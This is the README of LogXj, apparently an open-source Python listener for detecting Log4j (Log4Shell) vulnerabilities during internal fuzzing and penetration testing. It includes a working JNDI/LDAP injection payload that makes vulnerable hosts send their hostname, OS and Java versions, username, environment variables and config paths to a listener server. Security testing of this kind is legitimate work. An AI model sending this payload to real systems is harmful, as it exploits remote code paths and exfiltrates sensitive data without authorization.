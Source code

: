 ## 简介

- 用于探测Log4j漏洞, 将它POC的威力最大化, POC验证成功后会立即收到目标机器的系统主机名、时间、版本号、用户名、环境变量以及Log4j路径、java版本号、中间件信息等信息.

## 灵感来源

- 由于不能第一时间立刻知道某应用系统整个组件调用链、数据传输链、系统调用链中是否存在Log4j漏洞，因此经常需要黑盒测试来fuzzing。可以利用存在漏洞的Log4j组件会向攻击者指定的dns服务端发起域名解析请求的特性判断漏洞的存在，但是内网不一定存在dns服务器，即使存在也不一定配置了dns服务器，即使配置了但是通过dnslog这类平台也无法知道是内网中的哪台机器存在漏洞，即使知道了也不确定是那台机器上的哪个web应用存在漏洞，用的是哪个版本的java环境以及哪个中间件。
- 根据自己以上种种痛点写了这个小工具，提高挖洞效率，顺便开源出来。

## 作用

- 监听端口, 等待猎物，被动式发现存在Log4j漏洞的机器.
- 最大化了POC的威力: 可以获取目前机器的系统时间、主机名、Log4j路径、系统版本号、java版本号、系统用户名、中间件信息（含物理路径）、环境变量等敏感信息.
- 功能超越了dnslog和ncat.
- 时刻监听同一端口, 可不限制地接收多个目标传输过来的漏洞信息.
- 收到漏洞信息后立即断开, 避免占用目标的程序线程和网络连接.
- 记录历史, 保存漏洞信息.

## 优点

- 代码开源, 安全可控.
- 不依赖第三方库.
- 跨平台.
- 解决了内网环境没有dns服务器、不通dnslog等问题.
- 解决了内网环境无法下载ncat的问题.
- 解决了ncat命令过于冗余的问题.
- 解决了ncat监听模式下需要频繁ctrl+c才能终止OOB连接的问题.
- 兼容Python2和Python3.
- 解决了fuzzing工程师不清楚fuzzing成功了哪台目标机器的问题.
- 解决了fuzzing工程师不清楚fuzzing成功了目标机器上的哪个web应用的问题.

## 用法

1. 找一台所有内网服务器都通的服务器，搭建```LogXj安全服务端```，命令如下：
```
python logxj.py
```

2. 以下是我构造的```LOGXJ POC```，需要先手动把里面的```LOGXJ_SERVER```替换为```LogXj安全服务端的IP```，然后把它发送给使用了log4j的目标：
```shell
${jndi:ldap://LOGXJ_SERVER:4444/\nFound Log4j vuln!\nDate\t:${date:yyyy-MM-dd HH:mm:ss}\nHostname:${hostName}\nConf dir:${log4j:configLocation:-}\nOs ver\t:${java:os}\nJava ver:${java:version}\nUser\t:${env:USER:-}${env:USERNAME:-}\nIsTomcat:${env:CATALINA_BASE:-False}\nPATH\t:${env:PATH:-}\n\nEnd}
```

3. 此时观察```LogXj安全服务端```的控制台：
- 若收到回显，则说明目标或数据传输链路中的某些系统存在log4j漏洞。
- 若没有回显，则说明可能暂无风险，也可能是和下面的```额外说明```有关。

## 额外说明

- 若用本项目的方式无法发现漏洞，但是用dnslog的方式能发现漏洞，则可能是因为```存在log4j漏洞的系统```与```LogXj安全服务端```网络不通，而```存在log4j漏洞的系统```与DNS服务器正好因dns解析而网络相通。
- 建议把```LogXj安全服务端```部署在一台所有内网服务器都通的服务器上。

## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=xcanwin/LogXj&type=Date)](https://star-history.com/#xcanwin/LogXj)
